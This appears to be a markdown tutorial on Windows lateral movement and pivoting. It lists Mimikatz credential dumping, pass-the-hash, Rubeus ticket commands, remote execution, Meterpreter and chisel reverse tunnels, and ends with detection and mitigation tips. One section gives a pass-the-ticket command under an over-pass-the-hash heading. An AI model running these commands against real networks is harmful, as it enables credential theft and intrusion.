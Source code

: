   
## 📚 Table of Contents

  

1. [Introduction](#introduction)
2. [Techniques for Lateral Movement](#techniques-for-lateral-movement)
    - [Using Credential Dumping](#using-credential-dumping)
    - [Pass-the-Hash](#pass-the-hash)
    - [Pass-the-Ticket](#pass-the-ticket)
    - [Over-Pass-the-Hash (Pass-the-Key)](#over-pass-the-hash-pass-the-key)
    - [WMI & WinRM Execution](#wmi--winrm-execution)
    - [PsExec & SMB](#psexec--smb)
3. [Pivoting Through Compromised Hosts](#pivoting-through-compromised-hosts)
    - [SOCKS Proxy via Meterpreter](#socks-proxy-via-meterpreter)
    - [SSH Pivoting / Port Forwarding](#ssh-pivoting--port-forwarding)
    - [Using Chisel / Ligolo / Proxychains](#using-chisel--ligolo--proxychains)
4. [Detecting Lateral Movement](#detecting-lateral-movement)
5. [Mitigations & Best Practices](#mitigations--best-practices)
6. [Conclusion](#conclusion)

  ---

## Techniques for Lateral Movement

### Using Credential Dumping

Dump credentials using Mimikatz or LSASS access:

```
mimikatz.exe
```

```
sekurlsa::logonpasswords
```

### Pass-the-Hash

```
evil-winrm -i 10.10.10.10 -u Administrator -H <NTLM_HASH>
```

  
### Pass-the-Ticket (PtT)

Extract and inject Kerberos tickets:

```
Rubeus.exe asktgt /user:USERNAME /rc4:NTLM_HASH
```

```
Rubeus.exe ptt /ticket:TICKET.kirbi
```

### Over-Pass-the-Hash (Pass-the-Key)

```
mimikatz # kerberos::ptt ticket.kirbi
```
  
### WMI & WinRM Execution

```
Invoke-WmiMethod -ComputerName victim -Class Win32_Process -Name Create -ArgumentList "cmd.exe /c whoami"
```

```
evil-winrm -i 10.10.10.10 -u user -p password
```

### PsExec & SMB

```
psexec.py Administrator@10.10.10.10
```
  
---
  
## Pivoting Through Compromised Hosts
  
### SOCKS Proxy via Meterpreter

```
meterpreter > run autoroute -s 10.10.0.0/16
```

```
meterpreter > run socks_proxy
```
  
Configure proxychains or tools like:

```
proxychains xfreerdp ...
```

### SSH Pivoting / Port Forwarding

```
ssh -L 1080:10.10.10.10:3389 user@pivot_host
```

### Using Chisel / Ligolo / Proxychains

Start chisel server:

```
chisel server -p 8000 --reverse
```

Client:

```
chisel client <attacker-ip>:8000 R:1080:socks
```

## Detecting Lateral Movement

Detection strategies include:

- Monitoring Authentication Logs — Look for unusual logins, logon types, or accounts accessing multiple systems in short time spans.

- Windows Event IDs —    
    - 4624 (Successful logon) — check for anomalies
    - 4625 (Failed logon attempts) — brute-force indicators        
    - 4769 (Kerberos service ticket request) — possible PtT
- Network Traffic Analysis — Identify unusual SMB, RDP, or WinRM activity.
- Honeypots — Deploy decoy credentials or hosts to detect unauthorized movement.

---
## Mitigations & Best Practices

- Enforce Multi-Factor Authentication (MFA) for privileged accounts.
- Limit Lateral Movement Paths — Segment networks and apply least privilege.
- Disable Legacy Protocols like SMBv1 and NTLM where possible.
- Patch Regularly to prevent exploitation of known vulnerabilities.
- Use Credential Guard / LSASS Protection to prevent credential dumping.
- Implement Monitoring & Alerting — SIEM rules for unusual account usage.

---
## Conclusion

Lateral movement is a key phase in post-exploitation that allows attackers to expand access and target critical assets. Understanding the techniques, being able to detect them, and applying strong mitigations is essential for reducing risk. Combining **proactive defense** with **continuous monitoring** will significantly improve resilience against these threats.